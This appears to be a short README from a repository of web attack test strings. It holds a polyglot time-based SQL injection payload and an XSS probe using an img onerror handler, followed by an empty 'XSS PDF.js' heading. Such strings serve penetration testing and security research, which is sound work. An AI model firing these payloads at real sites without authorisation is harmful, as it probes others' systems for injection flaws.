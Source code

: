 # payload
 ## SQLi one for all
    
    SLEEP(1)+/*'+or+SLEEP(1)+or'"+or+SLEEP(1)+or+"*/
 ## XSS
 
    "><img src=dwqdwq onerror=console.log(1)>
    
 ## XSS PDF.js
    
   
